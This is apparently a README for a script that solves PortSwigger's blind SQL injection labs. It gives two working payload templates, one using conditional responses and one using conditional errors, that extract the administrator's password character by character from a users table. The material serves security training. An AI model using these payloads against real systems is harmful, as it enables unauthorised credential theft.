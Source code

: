 # SQL Injection PortSwigger Labs
The script gets the password length and execute a bruteforce attack to the web.
- Lab: Blind SQL injection with conditional responses
```sql
'and (select substring(password, %d, 1) from users where username = 'administrator') = '%s
```
- Lab: Blind SQL injection with conditional errors
```sql
'||(SELECT CASE WHEN SUBSTR(password,%d,1)='%s' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

## Requirements
- pwntools
- request

All the requirements can be installed from requirements.txt file executing this on terminal:
```bash
pip3 install -r requirements.txt
```
## To-Do
- Get pass length on coditional error attack